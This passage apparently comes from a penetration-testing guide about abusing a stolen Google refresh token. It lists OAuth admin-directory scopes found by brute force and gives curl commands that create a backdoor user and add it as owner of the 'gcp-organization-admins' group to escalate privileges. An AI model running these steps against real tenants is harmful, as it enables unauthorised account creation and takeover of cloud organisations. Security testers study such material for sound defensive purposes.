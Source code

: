 {% hint style="info" %}
Note that even having a refresh token, it's not possible to request any scope for the access token as you can only requests the **scopes supported by the application where you are generating the access token**.

Also, the refresh token is not valid in every application.
{% endhint %}

By default GCSD won't have access as the user to every possible OAuth scope, so using the following script we can find the scopes that can be used with the `refresh_token` to generate an `access_token`:

<details><summary>Bash script to brute-force scopes</summary></details>

And this is the output I got at the time of the writing:

```
https://www.googleapis.com/auth/admin.directory.group
https://www.googleapis.com/auth/admin.directory.orgunit
https://www.googleapis.com/auth/admin.directory.resource.calendar
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/admin.directory.userschema
https://www.googleapis.com/auth/apps.groups.settings
https://www.googleapis.com/auth/apps.licensing
https://www.googleapis.com/auth/contacts
```

#### Create a user and add it into the group `gcp-organization-admins` to try to escalate in GCP

```bash
# Create new user
curl -X POST \
  'https://admin.googleapis.com/admin/directory/v1/users' \
  -H 'Authorization: Bearer <ACCESS_TOKEN>' \
  -H 'Content-Type: application/json' \
  -d '{
    "primaryEmail": "deleteme@domain.com",
    "name": {
      "givenName": "Delete",
      "familyName": "Me"
    },
    "password": "P4ssw0rdStr0ng!",
    "changePasswordAtNextLogin": false
  }'

# Add to group
curl -X POST \
  'https://admin.googleapis.com/admin/directory/v1/groups/gcp-organization-admins@domain.com/members' \
  -H 'Authorization: Bearer <ACCESS_TOKEN>' \
  -H 'Content-Type: application/json' \
  -d '{
    "email": "deleteme@domain.com",
    "role": "OWNER"
  }'

# You could also change the password of a user for example
```
